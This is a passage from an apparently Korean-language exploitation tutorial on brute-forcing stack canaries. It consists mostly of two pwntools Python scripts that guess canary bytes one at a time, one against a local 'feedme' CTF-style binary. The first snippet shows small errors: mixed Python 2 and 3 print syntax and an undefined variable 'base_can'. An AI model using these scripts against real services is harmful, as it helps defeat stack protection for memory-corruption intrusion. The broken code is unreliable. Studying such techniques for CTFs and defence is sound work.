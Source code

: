```python
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### Example 2

이것은 32비트에 대해 구현되었지만, 쉽게 64비트로 변경할 수 있습니다.\
또한 이 예제에서는 **프로그램이 입력의 크기를 나타내는 바이트와 페이로드를 먼저 기대한다는 점에 유의하십시오.**
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
## 스레드
